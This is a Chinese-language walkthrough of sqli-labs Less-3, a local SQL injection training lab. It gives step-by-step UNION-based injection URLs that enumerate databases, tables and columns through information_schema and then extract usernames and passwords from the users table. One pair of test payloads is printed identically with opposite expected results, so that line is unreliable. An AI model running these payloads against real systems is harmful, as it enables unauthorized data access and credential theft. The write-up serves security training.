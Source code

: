 ## 练习开始


首先打开http://127.0.0.1/Less-3/?id=1
![](luffy1.png)

less-3是基于错误的GET单引号变形字符型注入，位置在where之后且后跟limit


核心的语句在于
```
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

测试用的payload
```
') and 1=1 %23 返回正确
') and 1=1 %23 返回错误

```

**%23和--+等价**



## 手工注入

###判断列数

`
http://127.0.0.1/Less-3/?id=1') order by 3 %23
`
![](luffy2.png)

### 判断当前数据库数量

`
http://127.0.0.1/Less-3/?id=-1')  union select 1,count(*),3 from information_schema.schemata%23
`
![](luffy4.png)

判断第一个数据库
`
http://127.0.0.1/Less-3/?id=-1')  union select 1,schema_name,3 from information_schema.schemata limit 0,1 %23
`
![](luffy5.png)
通过修改limit之后的第一个参数逐步遍历数据库

`
http://127.0.0.1/Less-3/?id=-1')  union select 1,schema_name,3 from information_schema.schemata limit 1,1 %23
`

### 检查security数据库的表

`
http://127.0.0.1/Less-3/?id=-1')  union select 1,count(*),3 from information_schema.tables where table_schema='security' %23
`
![](luffy6.png)

通过修改limit之后的第一个参数逐步遍历数据库的表
`
http://127.0.0.1/Less-3/?id=-1')  union select 1,table_name,3 from information_schema.tables where table_schema='security' limit 0,1  %23
`
![](luffy7.png)


### 检查security数据库中user表的列

判断列的数量
`
http://127.0.0.1/Less-3/?id=-1')  union select 1,count(*),3 from information_schema.columns where table_schema='security' and table_name="users" %23
`
![](luffy8.png)

检查列的内容
`
http://127.0.0.1/Less-3/?id=-1')  union select 1,column_name,3 from information_schema.columns where table_schema='security' and table_name="users"  limit 0,1 %23
`
![](luffy8.png)


### 爆出数据

`
http://127.0.0.1/Less-3/?id=-1')  union select 1,concat_ws(":",username,password),3 from users %23
`

![](luffy10.png)






